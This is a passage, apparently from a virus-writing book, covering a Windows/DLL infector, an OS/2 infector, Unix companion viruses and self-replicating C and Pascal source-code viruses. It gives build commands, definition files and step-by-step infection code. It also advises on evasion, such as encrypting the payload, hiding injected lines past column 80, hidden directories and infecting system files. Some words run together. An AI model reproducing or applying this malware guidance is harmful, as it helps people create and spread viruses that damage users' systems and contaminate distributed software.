DPMI is basically responsible for all of the low-level protected mode system management that Windows does - allocating memory and manipulating selectors, descriptor tables, etc. Even if you call the Windows API to allocate some memory, the end result will be an Interrupt 31H (which the DPMI uses for all of its function calls.
The housekeeping necessary to create a data segment, as implemented in the function CREATE_DS, is as follows:
When Caro Magnum is done with its work, it should be nice and de-allocate the memory it took using DPMI function 502H. Note that, because Caro Magnum is dynamically allocating the data segment, it must set up all of the variables in it that it will subsequently use. All initial values are undetermined.
Now, when you write a Windows program in C with a WINMAIN function, etc., the compiler normally adds some startup code in front of WINMAIN to get the program settled into the Windows environment properly. The virus will execute even before this startup code, so it must be a little careful about what it does. Fortunately the virus doesn't need to do much that will cause problems, except modify registers. Thus, Caro Magnum must be careful to save all register values on entry, and then restore them just before jumping to the host.
You may have noticed that I spent a fair amount of time discussing the details of infecting DOS COM files earlier on. After all, COM files are practically obsolete. However, the techniques we discussed when infecting COM files can also apply to Windows viruses. For example, since Caro Magnum is adding code to an existing segment, it must be offset-relocatable. Thus, some of the techniques used by primitive viruses can prove handy in unlikely places.
To create a Windows EXE out of CARO.ASM, you need a .DEF file, along with an .RC file. Then you can put the virus together with the Resource Compiler, RC. The virus itself will be the WinMain function, though it is no conventional WinMain! You just need to make it public in the assembler file.
Also put an external declaration in for any calls to the API used by the virus itself. This ensures that the EXE which RC creates will have relocatables built into it properly. The virus will build the relocatables after that. When implemented in this fashion, you can do away with the DB's to define a call to the API in the virus, and just code it as a call to the external function.
In Caro Magnum, the host uses the Windows API to terminate the program after the virus executes, by calling PostQuitMessage, rather than using DOS's Interrupt 21H, Function 4C.
Caro Magnum is fully capable of infecting Dynamic Link Libraries (DLLs) and it will infect any that have an extent of .EXE. DLLs are often named with an extent of .DLL. To change Caro Magnum so that it will infect .DLL files, all you have to do is to change FILE_NAME1 to FILE_NAME2 at the beginning of the FIND_FILE routine.
DLLs are structurally about the same as Windows EXEs. They have some startup code which is executed when the DLL is loaded, some wrap-up code which is executed when the DLL is disposed of, and a bunch of exported functions. Caro Magnum will infect the startup code, so that the virus is executed whenever the DLL is loaded into memory by Windows.
The only real difference between a DLL and an EXE when executing is that the DLL can only have one instance of itself in memoryatany time,anditsroutinesgenerallyusethecaller'sstack. These differences don't matter too much to Caro Magnum.
We've only explored one Windows virus in this chapter, but I hope you've at least caught a glimpse of some of the possibilities for Windows viruses. Since Windows programs normally have multiple entry points, it is perfectly feasible to infect a file so that the virus activates at any of these entry points. Not only that, Windows has other executable files besides programs which also can be infected: device drivers, virtual device drivers, and plenty of system files. For example, if one were to infect KRNL386.EXE, one could modify any of the API functions to invoke an infect routine whenever it was called.
To assemble Caro Magnum, you'll need TASM or MASM, a Windows-compatible linker, and a Windows Resource Compiler, RC, which is distributed with most Windows-based high level language compilers. You'll also need the Windows libraries where _lopen, etc., are defined. They come with the Microsoft Windows SDK, available from the Developer Network, and are also often supplied with Windows-based compilers from other manufacturers. I used the SDK. (If you don't have these tools, see the exercises for an alternative.) A batch file to assemble it into a ready-to-run Windows EXE file is given by:
masm caro,,; rc /r caro.rc link /a:512 /nod caro,,,slibcew libw, caro.def rc caro.res
The CARO.DEF file is given by:
NAME CARO DESCRIPTION 'CARO-Magnum Virus' EXETYPE WINDOWS STUB 'WINSTUB.EXE' CODE MOVEABLE DISCARDABLE; DATA MOVEABLE MULTIPLE; HEAPSIZE 1024 STACKSIZE 5120 EXPORTS VIRUS @1
The CARO.RC file is:
#include <windows.h> #include "caro.h"
The CARO.H file is simply:
int PASCAL WinMain(void);
And finally, the CARO.ASM file is given by:
OS/2 programs are very similar to Windows programs, and most of the techniques we discussed for Windows viruses in the last chapter carry over to an OS/2 virus as well.
The main differences between OS/2 and Windows are a) the underlying interrupt services disappear completely, except in a DOS box (and even then you don't get everything), b) the function names and calling conventions differ from Windows, and c) assembly language-level coding details are even more poorly documented than they are for Windows. It would seem the people who wrote OS/2 want you to program everything in C.
In addition to the above differences, OS/2 supports two completely different memory models for programs. One is called the segmented or 16:16 memory model because it uses 16 bit offsets and 16 bit selectors to access code and data. The other memory model is called the flat or 0:32 model. This model uses 32 bit offsets, which can access up to 4 gigabytes of address space. That's the entire addressable memory for 80386+ processors, so segments aren't really necessary. Thus, they're all set to zero.
Programs in these two memory models are as different as COM and EXE files, and completely different techniques are required to infect them. We will examine a virus to infect segmented memory model programs here named Blue Lightening. A flat memory model virus is left as an exercise for the reader.
Although writing assembly language programs for OS/2 seems to be a black art, it's no harder than doing it for Windows. You will need OS/2 compatible tools to do it, though. For most programs, you'll need an assembler which is OS/2 wise. The only one I'm really aware of is MASM 5.10a and up. Then, you'll also need LINK 5.10a. Both of these tools are distributed with IBM's Developer Connection Kit, which you'll probably want to get your hands on if you're serious about developing OS/2 programs.
Unlike Windows, OS/2 was originally a protected mode command line operating system, so many OS/2 programs don't have resources like icons and menus attached to them. As such, you won't need a resource compiler, unless you want to put windows in to interface with the Presentation Manager.
The structure of an OS/2 EXE file in the segmented memory model is almost identical to a Windows EXE. It contains the same New Header and the same data structures, with the same meanings.
The Operating System field at offset 36H in the New Header is used to distinguish between an OS/2 program and a Windows program. The OS/2 program has a 1 in this byte, the Windows program has a 2 there.
In short, the headers are essentially the same, and the mechanisms we developed in the last chapter to read, examine and modify them will carry over virtually unchanged. Because of this similarity, Blue Lightening, will be functionally the same as Caro Magnum.
As in Windows, most OS/2 function calls are made using Pascal calling conventions. Parameters are pushed on the stack and the function is called with a far call. In OS/2 the function names and the names of the modules where they reside are different, of course. For example, instead of calling _lopen to open a file, one calls DosOpen. (DOS here has nothing to do with MS-DOS or PC-DOS. It's used in the generic sense of Disk Operating System, but that's all.)
The calling parameters for the OS/2 functions differ from Windows. For example, a call to _lopen looked like this:
push es
push ds ;push pointer to file name
push dx
push 2 ;open in read/write mode
ROPEN: call FAR PTR _lopen
However, a call to DosOpen looks like this:
push ds ;push pointer to file name
push dx
push ds ;push pointer to handle
push OFFSET FHANDLE
push ds ;push pointer to OpenAction
push OFFSET OPENACTION
push 0 ;initial file allocation DWORD
push 0
push 3 ;push attribs (hidden, r/o)
push 1 ;FILE_OPEN
push 42 ;OPEN_SHARE_DENYNONE
push 0 ;DWORD 0 (reserved)
push 0
ROPEN: call DosOpen ;open file
Relatively messy...
As was the case with Windows, the only way to determine how to call these functions is to look up their definitions in C, which you can typically find in the documentation in the OS/2 Developer's Connection, and then work back to what the equivalent in assembler would be. Watch out if you try this, though, because the functions in the segmented and flat models are very different. If all else fails, you can write a small C program using a function and then disassemble it.
The modules which OS/2 dynamically links programs to differ in name from the Windows versions. For example, _lopen resides in the KERNEL module, whereas DosOpen resides in the DOSCALLS module. And of course, it has a different function number associated to it. All of these, however, are relatively minor differences.
Since interrupts, including the DPMI interrupt, go away under OS/2, onecan no longer call DPMI to allocate memory, etc. Instead, one must use an OS/2 function call. As it turns out, this is actually easier than using DPMI. One need only call the DosAllocSeg function to allocate a data segment, and DosFreeSeg to get rid of it when done. In between, one can use it quite freely.
Unlike Windows, OS/2 uses the size of the file stored in the old DOS EXE header to determine how much program to load into memory. Thus, an OS/2 virus must also modify the old header to reflect the enlarged size of the file. If it does not, OS/2 will cut off the end of the file, causing an error when the program attempts to access code or data that just isn't there anymore.
On the up-side of a standard OS/2 virus like Blue Lightening is the fact that it is no longer dependent on the FAT file system. Using the DosFindFirst and DosFindNext functions to search for files, and DosOpen to open them, the virus can just as well infect files which are stored using HPFS (High Performance File System) even though they may have long names, etc. Just using these functions normally is all that is needed to implement this capability.
The following virus will infect the first OS/2 segmented EXE it can find in the current directory which hasn't been infected already. The following CMD file (OS/2's equivalent of a batch file) will properly assemble the virus:
masm /Zi blight,,; link blight,,,os2286,blight.def
The BLIGHT.DEF file takes the form
NAME BLIGHT DESCRIPTION 'Blue Lightening Virus' PROTMODE STACKSIZE 5120
And the source for the virus itself, BLIGHT.ASM, is given by:
Writing viruses in Unix has often been said to be impossible, etc., etc., by the so-called experts. In fact, it's no more difficult than in any other operating system.
Fred Cohen has published a number of shell-script viruses for Unix.1 These are kind of like batch-file viruses: pretty simple and certainly easy to catch. Another book which deals with the subject is UNIX Security, A Practical Tutorial,2 which contains a good discussion of a Unix virus, including source for it.
Frankly, I don't consider myself much of a Unix enthusiast, much less aguru. Eventhoughsome free versions of it have become available, I think it is only bound to become more and more obsure as better operating systems like OS/2 and Windows NT become more widely available. None the less, Unix is fairly important today in one respect: it has for years been the operating system of choice for computers connectedtotheinternet.Chancesare,ifyou'vebeen on the internet at all, you've had some exposure to Unix (like it or not). For this reason alone, it's worth discussing Unix viruses.
For the purposes of this chapter, we'll use BSD Free Unix Version 2.0.2. This is a free version of Unix available for PC's on CD-ROM or via Internet FTP. We'll also use the tools provided with it, like the GNU C compiler. At the same time, I'll try to keep the discussion as implementation independent as possible.
One problem with Unix which one doesn't normally face with DOS and other PC-specific operating systems is that Unix is used on many different platforms. It runs not just on 80386-based PCs, but on 68040s too, on Sun workstations, on... well, you name it. The possibilities are mind boggling.
Anyway, you can certainly write a parasitic virus in assembler for Unix programs. To do that one has to understand the structure of an executable file, as well as the assembly language of the target processor. The information to understand the executable structure is generally kept in an include file called a.out.h, or something like that. However, such a virus is generally not portable. If one writes it for an 80386, it won't run on a Sun workstation, or vice versa.
Writing a virus in C, on the other hand, will make it useful on a variety of different platforms. As such, we'll take that route instead, even though it limits us to a companion virus. (Assembler is the only reasonable way to deal with relocating code in a precise fashion.)
The first virus we'll discuss here is called X21 because it renames the host from FILENAME to FILENAME.X21, and copies itself into the FILENAME file. This virus is incredibly simple, and it makes no attempt to hide itself. It simply scans the current directory and infects every file it can. A file is considered infectable if it has its execute attribute set. Also, the FILENAME.X21 file must not exist, or the program is already infected.
The X21 is quite a simple virus, consisting of only 60 lines of c code. It is listed at the end of the chapter. Let's go through it step by step, just to see what a Unix virus must do to replicate.
The logic for X21 is displayed in Figure 17.1. On the face of it, it's fairly simple, however the X21 has some hoops to jump through that a DOS virus doesn't. (And a DOS virus has hoops to jump through that a Unix virus doesn't, of course.)
Figure 17.1: X21 Logic
Firstly, in Unix, directories are treated just like files. Rather than calling Search First and Search Next functions as in DOS, one calls an opendir function to open the directory file, and then one repeatedly calls readdir to read the individual directory entries. When done, one calls closedir to close the directory file. Thus, a typical program structure would take the form
dirp=opendir(".");
while ((dp==readdir(dirp))!=NULL) {
(do something)
}
closedir(dirp);
dirp is the directory search structure which keeps track of where readdir is reading from, etc. dp is a pointer to a directory entry, which is filled in by readdir, and the pointer is returned to the caller. When readdir fails for lack of additional directory entries, it returns a NULL value.
Once a directory entry is located, it must be qualified, to determine if it is an infectable file or not. Firstly, to be infectable, the file must be executable. Unlike DOS, where executable files are normally located by the filename extent of EXE, COM, etc., Unix allows executables to have any name. Typical names are kept simple so they can be called easily. However, one of the file attributes in Unix is aflagtodesignate whether thefileisexecutable or not.
To get the file attributes, one must call the stat function with the name of the file for which information is requested (called dp->d_name), and pass it a file status data structure, called st here:
stat((char *)&dp-d_name,&st);
Then one examines st.st_modes to see if the bit labelled S_IXUSR is zero or not. If non-zero, this file can be executed, and an infection attempt makes sense.
Next, one wants to make sure the file is not infected already. There are two possibilities which must be examined here. First, the file may be host to another copy of X21 already. In this case, X21 doesn't want to re-infect it. Secondly, it may be a copy of X21 itself.
To see if a file is a host to X21, one only has to check to see if the last three characters in the file name are X21. All hosts to an instance of the virus are named FILENAME.X21. To do this, we create a pointer to the file name, space out to the end, back up 3 spaces, and examine those three characters,
lc=(char *)&dp-d_name;
while (*lc!=0) lc++;
lc=lc-3;
if (!((*lc=='X')&&(*(lc+1)=='2')&&(*(lc+2)==1))) {
(do something)
}
To determine whether a file is actually a copy of X21 itself, one must check for the existence of the host. For example, if the file which X21 has found is named FILENAME, it need only go look andsee if FILENAME.X21 exists.Ifitdoes, then FILENAME is almost certainly a copy of X21:
if ((host=fopen("FILENAME.X21","r"))!=NULL) fclose(host);
else {infect the file}
If these tests have been passed successfully, the virus is ready to infect the file. To infect it, the virus simply renames the host to FILENAME.X21 using the rename function:
rename("FILENAME","FILENAME.X21");
and then makes a copy of itself with the name FILENAME. Quite simple, really.
The final step the virus must take is to make sure that the new file with the name FILENAME has the execute attribute set, so it can be run by the unsuspecting user. To do this, the chmod function is called to change the attributes:
chmod("FILENAME",S_IRWXU|S_IXGRP);
That does the job. Now a new infection is all set up and ready to be run.
The final task for the X21 is to go and execute its own host. This process is much easier in Unix than in DOS. One need only call the execve function,
execve("FILENAME.X21",argv,envp);
(Where argv and envp are passed to the main c function in the virus.) This function goes and executes the host. When the host is done running, control is passed directly back to the Unix shell.
X21 is pretty simple, and it suffers from a number of drawbacks. First and foremost is that it leaves all the copies of itself and its hosts sitting right there for everyone to see. Unlike DOS, Unix doesn't give you a simple "hidden" attribute which can be set to make a file disappear from a directory listing. If you infected a directory full of executable programs, and then listed it, you'd plainly see a slew of files named .X21 and you'd see all of the original names sitting there and each file would be the same length. It wouldn't take a genius to figure out that something funny is going on!
X23 is a fancier version of X21. It pads the files it infects so that they are the same size as the host. That is as simple as writing garbage out to the end of the file after X23 to pad it. In order to do this, X23 needs to know how long it is, and it must not infect files which are smaller than it. Simple enough.
Secondly, X23 creates a subdirectory named with the single character Ctrl-E in any directory where it finds files to infect. Then, it puts the host in this directory, rather than the current directory. The companion virus stays in the current directory, bearing the host's old name. The nasty thing about this directory is that it shows up in a directory listing as "?". If you knew it was Ctrl-E, you could cd to it, but you can't tell what it is from the directory listing.
In any event, storing all the hosts in a subdirectory makes any directory you look at a lot cleaner. The only new thing in that directory is the ? entry. And even if that does get noticed, you can't look in it very easily. If somebody deletes it, well, all the hosts will disappear too!
I don't usually recommend anti-virus software packages, however, unlike DOS, Windows and even OS/2, anti-virus software for Unix is not so easy to come by. And though Unix viruses may be few in number, ordinary DOS viruses can cause plenty of trouble on Unix machines. The only real Unix specific product on the market that I know is called VFind from Cybersoft. 3 Not being a Unix guru, I'm probably not the person to evaluate it, but I do know one thing: if you have a Unix system you really do need protection and you shoud do something about it!
The X21 virus can be compiled with the Gnu C compiler with "gcc X21.c". It will run under BSD Free Unix Version 2.0.2. It should work, with little or no modification, on a fair number of other systems too.
The X23 virus can be compiled and run just like the X21.
Normally, when we think of a virus, we think of a small, tight program written in assembly language, which either infects executable program files or which replaces the boot sector on a disk with its own code. However, in the abstract, a virus is just a sequence of instructions which get executed by a computer. Those instructions may be several layers removed from the machine language itself. As long as the syntax of these instructions is powerful enough to perform the operations needed for a sequence of instructions to copy itself, a virus can propagate.
Potentially, a virus could hide in any sequence of instructions that will eventually be executed by a computer. For example, it might hide in a Lotus 123 macro, a Microsoft Word macro file, or a dBase program. Of particular interest is the possibility that a virus could hide in a program's source code files for high level languages like C or Pascal, or not-so-high level languages like assembler.
Now I want to be clear that I am NOT talking about the possibility of writing an ordinary virus in a high level language like C or Pascal. Some viruses for the PC have been written in those languages, and they are usually (not always) fairly large and crude. For example M. Valen's Pascal virus Number One 1, is some 12 kilobytes long, and then it only implements the functionality of an overwriting virus that destroys everything it touches. It's essentially equivalent to the 44 byte Mini-44. High level languages do not prove very adept at writing many viruses because they do not provide easy access to the kinds of detailed manipulations necessary for infecting executable program files. That is not to say that such manipulations can not be accomplished in high level languages (as we saw in the last chapter) - just that they are often cumbersome. Assembly language has been the language of choice for serious virus writers because one can accomplish the necessary manipulations much more efficiently.
A source code virus attempts to infect the source code for a program - the C, PAS or ASM files - rather than the executable. The resulting scenario looks something like this (Figure 18.1): Software Developer A contracts a source code virus in the C files for his newest product. The files are compiled and released for sale. The product is successful, and thousands of people buy it. Most of the people who buy Developer A's software will never even have the opportunity to watch the virus replicate because they don't develop software and they don't have any C files on their system. However, Developer B buys a copy of Developer A's software and puts it on the system where his source code is. When Developer B executes Developer A's software, the virus activates, finds a nice C file to hide itself in,and jumps over there. EventhoughDeveloper B is fairly virus-conscious, he doesn't notice that he's been infected because he only does virus checking on his EXE's, and his scanner can't detect the virus in Developer A's code. A few weeks later, Developer B compiles a final version of his code and releases it, complete with the virus. And so the virus spreads...
While such a virus may only rarely find its way into code that gets widely distributed, there are hundreds of thousands of C compilers out there, and potentially hundreds of millions of files to infect. The virus would be inactive as far as replication goes, unless it was on a system with source files. However, a logic bomb in the compiled version could be activated any time an executable with the virus is run. Thus, all of Developer A and Developer B's clients could suffer loss from the virus, regardless of whether or not they developed software of their own.
Figure 18.1: Operation of a source code virus.
Source code viruses also offer the potential to migrate across environments. For example, if a programmer was doing development work on some Unix software, but he put his C code onto a DOS disk and took it home from work to edit it in the evening, he might contract the virus from a DOS-based program. When he copied the C code back to his workstation in the morning, the virus would go right along with it. And if the viral C codewassufficiently portable (not too difficult) it would then properly compile and execute in the Unix environment.
A source code virus will generally be more complex than an executable-infector with a similar level of sophistication. There are two reasonsfor this:(1) The virusmust be able to survivea compile, and (2) The syntax of a high levellanguage(andI includeassembler here) is generally much more flexible than machine code. Let's examine these difficulties in more detail:
Since the virus attacks source code, it must be able to put a copy ofitselfintoa high-level languagefileinaformwhichthatcompiler will understand. A C-infector must put C-compileable code into a C file. It cannot put machine code into the file because that won't make sense to the compiler. However, the infection must be put into a file by machine code executing in memory. That machine code is the compiled virus. Going from source code to machine code is easy - the compiler does it for you. Going backwards - which the virus must do - is the trick the virus must accomplish. (Figure 18.2)
The first and most portable way to "reverse the compile," if you will, is to write the viral infection routine twice - once as a compileable routine and once as initialized data. When compiled, the viral routine coded as data ends up being a copy of the source code inside of the executable. The executing virus routine then just copiesthe virus-as-dataintothe file it wantstoinfect.Alternatively, if one is willing to sacrifice portability, and use a compiler that accepts inline assembly language, one can write most of the virus as DB statements, and do away with having a second copy of the source code worked in as data. The DB statements will just contain machine code in ASCII format, and it is easy to write code to convert from binary to ASCII. Thus the virus-as-instructions can make a compileable ASCII copy of itself directly from its binary instructions. Either approach makes it possible for the virus to survive a compile and close the loop in Figure 18.2.
Fig. 18.2: The two lives of a source code virus.
Obviously, a source code virus must place a call to itself somewhere in the program source code so that it will actually get called and executed. Generally, this is a more complicated task when attacking source code than when attacking executables. Executables have a fairly rigid structure which a virus can exploit. For example, it is an easy matter to modify the initial cs:ip value in an EXE file so that it starts up executing some code added to the end of the file, rather than the intended program. Not so for a source file. Any virus infecting a source file must be capable of understanding at least some rudimentary syntax of the language it is written in. For example, if a virus wanted to put a call to itself in the main() routine of a C program, it had better know the difference between
/*
void main(int argc, char *argv[]) {
This is just a comment explaining how to
do_this(); The program does this
and_this(); And this, twice.
and_this();
... }
*/
and
void main(int argc, char *argv[]) {
do_this();
and_this();
and_this();
... }
or it could put its call inside of a comment that never gets compiled or executed!
Source code viruses could conceivably achieve any level of sophistication in parsing code, but only at the expense of becoming as large and unwieldy as the compiler itself. Normally, a very limited parsing ability is best, along with a good dose of politeness to avoid causing problems in questionable circumstances.
So much for the two main hurdles a source code virus must overcome.
Generally source code viruses will be large compared to ordinary executable viruses. Ten years ago that would have made them impossible on microcomputers, but today programs hundreds of kilobytes in length are considered small. So adding 10 or 20K to one isn't necessarily noticeable. Presumably the trend toward bigger and bigger programs will continue, making the size factor much less important.
Source code viruses have been shadowy underworld denizens steeped in mystery until now. They are not new, though. On the contrary, I think these ideas may actually pre-date the more modern idea of what a virus is.
Many people credit Fred Cohen with being the inventor of viruses. Certainly he was the first to put a coherent discussion of them together in his early research and dissertation, published in 1986. However, I remember having a lively discussion of viruses with a number of students who worked in the Artificial Intelligence Lab at MIT in the mid-seventies. I don't remember whether we called them "viruses," but certainly we discussed programs that had the same functionality as viruses, in that they would attach themselves to other programs and replicate. In that discussion, though, it was pretty much assumed that such a program would be what I'm calling a source code virus. These guys were all LISP freaks (and come to think of it LISP would be a nice language to do this kind of stuff in). They weren't so much the assembly language tinkerers of the eighties who really made a name for viruses.
The whole discussion we had was very hypothetical, though I got the feeling some of these guys were trying these ideas out. Looking back, I don't know if the discussion was just born of intellectual curiosity or whether somebody was trying to develop something like this for the military, and couldn't come out and say so since it was classified. (The AI Lab was notorious for its secret government projects.) I'd like to believe it was just idlespeculation. On the other hand, it wouldn't be the first time the military was quietly working away on some idea that seemed like science fiction.
The next thread I find is this: Fred Cohen, in his book A Short Course on Computer Viruses, described a special virus purportedly put into the first Unix C compiler for the National Security Agency by Ken Thompson.2 It was essentially designed to put a back door into the Unix login program, so Thompson (or the NSA) could log into any system. Essentially, the C compiler would recognize the login program's source when it compiled it, and modify it. However, the C compiler also had to recognize another C compiler's source, and set it up to propagate the "fix" to put the back door in the login. Although Thompson evidently did not call his fix a virus, that's what it was. It tried to infect just one class of programs: C compilers. And its payload was designed to miscompile only the login program. This virus wasn't quite the same as a source code virus, because it didn't add anything to the C compiler's source files. Rather, it sounds like a hybrid sort of virus, which could only exist in a compiler. None the less, this story (which is admittedly third hand) establishes the existence of viral technology in the seventies. It also suggests again that these early viruses were not too unlike the source code viruses I'm discussing here.
One might wonder, why would the government be interested in developing viruses along the lines of source code viruses, rather than as direct executables? Well, imagine you were trying to invade a top-secret Soviet computer back in the good ol' days of the Cold War. From the outside looking in, you have practically no understanding of the architecture or the low level details of the machine (except for what they stole from you). But you know it runs Fortran (or whatever). After a lot of hard work, you recruit an agent who has the lowest security clearance on this machine. He doesn't know much more about how the system operates than you do, but he has access to it and can run a program for you. Most computer security systems designed before the mid-80's didn't take viral attacks into account, so they were vulnerable to a virus going in at a low security level and gaining access to top secret information and convey it back out. (See the chapter A Viral Unix Security Breach later in this book for more details.) Of course, that wasn't a problem since there weren't any viruses back then. So what kind of virus can your agent plant? A source virus seems like a mighty fine choice in this case, or in any scenario where knowledge of the details of a computer or operating system is limited. That's because they're relatively portable, and independent of the details.
Of course, much of what I've said here is speculative. I'm just filling in the holes from some remarks I've heard and read here and there over the course of two decades. We may never know the full truth. However it seems fairly certain that the idea of a virus, if not the name, dates back before the mid 80's. And it would also appear that these early ideas involved viruses quite unlike the neat little executables running amok on PC's these days.
Ok, it's time to bring source code viruses out of the theoretical realm and onto paper. Let's discuss a simple source code virus written in C, designed to infect C files. Its name is simply SCV1.
SCV1 is not an extremely agressive virus. It only infects C files in the current directory, and it makes no very serious efforts to hide itself. None the less, I'd urge you to be extremely careful with it if you try it out. It is for all intents and purposes undetectable with existing anti-virus technology. Don't let it get into any development work you have sitting around!
Basically, SCV1 consists of two parts, a C file, SCV1.C and a header file VIRUS.H. The bulk of the code for the virus sits in VIRUS.H. All SCV1.C has in it is an include statement to pull in VIRUS.H, and a call to the main virus function sc_virus(). The philosophy behind this breakdown is that it will help elude detection by sight because it doesn't put a huge pile of code in your C files. To infect a C file, the virus only needs to put an
#include <virus.h>
statement in it and stash the call
sc_virus();
in some function in the file. If you don't notice these little additions, you may never notice the virus is there.
SCV1 is not very sneaky about where it puts these additions to a C file. The include statement is inserted on the first line of a file that is not part of a comment, the call to sc_virus() is always placed right before the last closing bracket in a file. That makes it the last thing to execute in the last function in a file. For example, if we take the standard C example program HELLO.C:
/* An easy program to infect with SCV1 */
#include <stdio.h>
void main()
{
printf("%s","Hello, world.");
}
and let it get infected by SCV1. It will then look like this:
/* An easy program to infect with SCV1 */
#include <virus.h>
#include <stdio.h>
void main()
{
printf("%s","Hello, world.");
sc_virus();}
That's all an infection consists of.
When executed, the virus must perform two tasks: (1) it must look for the VIRUS.H file. If VIRUS.H is not present, the virus must create it in your INCLUDE directory, as specified in your environment. (2) The virus must find a suitable C file to infect, and if it finds one, it must infect it. It determines whether a C file is suitable to infect by searching for the
#include <virus.h>
statement. If it finds it, SCV1 assumes the file has already been infected and passes it by. To avoid taking up a lot of time executing on systems that do not even have C files on them, SCV1 will not look for VIRUS.H or any C files if it does not find an INCLUDE environment variable. Checking the environment is an extremely fast process, requiring no disk access, so the average user will have no idea the virus is there.
VIRUS.H may be broken down into two parts. The first part is simply the code which gets compiled. The second part is the character constant virush[], which contains the whole of VIRUS.H as a constant. If you think about it, you will see that some coding trick must be employed to handle the recursive nature of virush[]. Obviously, virush[] must contain all of VIRUS.H, including the specification of the constant virush[] itself. The function write_virush() which is responsible for creating a new VIRUS.H in the infection process, handles this task by using two indicies into the character array. When the file is written, write_virush() uses the first index to get a character from the array and write it directly to the new VIRUS.H file. As soon as a null in virush[] is encountered, this direct write process is suspended. Then, write_virush() begins to use the second index to go through virush[] a second time. This time it takes each character in virush[] and convers it to its numerical value, e.g.,
`a' => `65'
and writes that number to VIRUS.H. Once the whole array has been coded as numbers,write_virush() goes back to the first index and continues the direct transcription until it reaches the end of the array again.
The second ingredient in making this scheme work is to code virush[] properly. The trick is to put a null in it right after the opening bracket of the declaration of virush[]:
static char virush[]={49,52,......
. . . . .
63,68,61,72,20,76,69,72,75,73,68,5B,5D,3D,7B,0,7D,
(c h a r v i r u s h [ ] = { } )
. . . . . |
. . . } |
Null goes here
This null is the key which tells write_virush() where to switch from index one to index two. The last character in virush[] is also a null for convenience' sake.
Coding the virush[] constant for the first time would be a real headache if you had to do it by hand. Every change you made to the virus would make yourheadacheworse. Fortunately that isn't necessary. One may write a program to do it automatically. Here we call our constant-generator program CONSTANT. The CONSTANT program essentially uses the same technique as write_virush() to create the first copy of VIRUS.H from a source file, VIRUS.HS. VIRUS.HS is writtten with all of the correct code that VIRUS.H should have, but instead of a complete virush[] constant, it uses a declaration
static char virush[]={0};
The CONSTANT program simply goes through VIRUS.HS looking for this declaration, and fills virush[] in with the contents it should have.
Clearlythe size of the code is a concern. Since the CONSTANT program puts all of the comments and white space into virush[] and moves them right along with the virus, it carries a lot of extra baggage. A second implementation of the same virus, called SCV2, gets rid of that baggage by writing VIRUS.H in the most economical form possible. This could probably be accomplished mechanically with an improved CONSTANT program which could remove comments and compress the code.
SCV1 could easily be made much more elusive and effective without a whole lot of trouble. A file search routine which jumps directories is easy to write and would obviously make the virus more infective. On a more subtle level, no special efforts have been made to hide the virus and what it is doing. The file writes are not coded in the fastest manner possible, nor is the routine to determine if a file is infected. The virush[] constant could easily be encrypted (even using C's random number generator) so that it could not be seen in the executable file. The VIRUS.H file could be hidden, nested in another .H file (e.g. STDIO.H), and even dynamically renamed. The statements inserted into C files could be better hidden. For example, when inserting the include statement, the virus could look for the first blank line in a C file (not inside a comment) and then put the include statement on that line out past column 80, so it won't appear on the screen the minute you call the file up with an editor. Likewise, the call to sc_virus() could be put out past column 80 anywhere in the code of any function.
One of the bigger problems a source code virus in C must face is that it will have little idea what the function it inserts itself in actually does. That function may rarely get called, or it may get called a hundred times a second. The virus isn't smart enough to know the difference, unless it goes searching for main(). If the virus were inserted in a frequently called function, it would noticeably bog down the program on a system with development work on it. Additionally, if the virus has infected multiple components of a single program it could be called at many different times from within a variety of routines. This potential problem could be avoided by putting a global time stamp in the virus, so that it would allow itself to execute at most - say - every 15 minutes within any given instance of a program.
Properly handled, this "problem" could prove to be a big benefit, though. Because the compiler carefully structures a c program when it compiles it, the virus could conceivably be put anywhere in the code. This overcomes the normal limitations on executable viruses which must always take control before the host starts up, because once the host starts, the state of memory, etc., will be uncertain.
So there you have it. Once the principles of a source code virus are understood, they prove rather easy to write. The code required for SCV1 is certainly no more complex than the code for a simple direct EXE infector. And the power of the language assures us that much more complex and effective viruses could be concocted.
The following program will compile with Microsoft C Version 7.0 and probably other versions as well. An admittedly lame attempt has been made to avoid Microsoft-specific syntax so that it shouldn't be too hard to port to other environments. It was originally developed using a medium memory model.
/* This is a source code virus in Microsoft C. All of the code is in virus.h */
#include <stdio.h>
#include <virus.h>
/******************************************************************************/
void main()
{
sc_virus(); // just go infect a .c file
}
Most of the meat of the virus hides in VIRUS.H. That file is created by running this one through the CONSTANT program, which fills in the virush[] constant. Again, this should be compiled with SCV1.C using Microsoft C 7.0.
Again, compile this with Microsoft C 7.0. Note that the file names and constant names are hard-coded in.
To create the virus in its executable form, you must first create VIRUS.H from VIRUS.HS using the CONSTANT, and then compile SCV1.C. The following commands will do the job, provided you have your include environment variable set to \C700\INCLUDE:
constant copy virus.h \c700\include cl scv1.c
Make sure you create a directory \C700\INCLUDE (or any other directory you like) and execute the appropriate SET command:
SET INCLUDE=C:\C700\INCLUDE
before you attempt to run SCV1, or it will not reproduce.
To demonstrate an infection with SCV1, create the file HELLO.C, and put it in a new subdirectory along with SCV1.EXE. Then execute SCV1. After SCV1 is executed, HELLO.C should be infected. Furthermore, if the file VIRUS.H was not in your include directory, it will now be there. Delete the directory you were working in, and VIRUS.H in your include directory to clean up.
A wild source code virus will not have all kinds of nice comments in it, or descriptive function names, so you can tell what it is and what it is doing. Instead, it may look like the following code, which just implements SCV1 in a little more compact notation.
Again, compile this with Microsoft C 7.0.
/* This is a source code virus in Microsoft C. All of the code is in virus.h */
#include <stdio.h>
#include <v784.h>
/******************************************************************************/
void main()
{
s784(); // just go infect a .c file
}
The following program, SCVIRUS, is a source code virus written for Turbo Pascal 4.0 and up. It is very similar in function to SCV1 in C except that all of its code is contained in the file which it infects. As such, it just looks for a PAS file and tries to infect it, rather than having to keep track of both an include file and infected source files.
This virus is completely self-contained in a single procedure, VIRUS, and a single typed constant, TCONST. Note that when writing a source code virus, one tries to keep as many variables and procedures as possible local. Since the virus will insert itself into many different source files, thefewerglobalvariableand procedure names, the fewer potential conflicts that the compiler will alert the user to. The global variables and procedures which one declares should be strange enough names that they probably won't get used in an ordinary program. One must avoid things like i and j, etc.
SCVIRUS will insert itself into a file and put the call to VIRUS right before the "end." in the main procedure. It performs a search only on the current directory. If it finds no files with an extent of .PAS it simply goes to sleep. Obviously, the danger of accidently inserting the call to VIRUS in a procedure that is called very frequentlyisavoidedbysearchingforan"end."insteadofan"end;" to insert the call. That makes sure it ends up in the main procedure (or the initialization code for a unit).
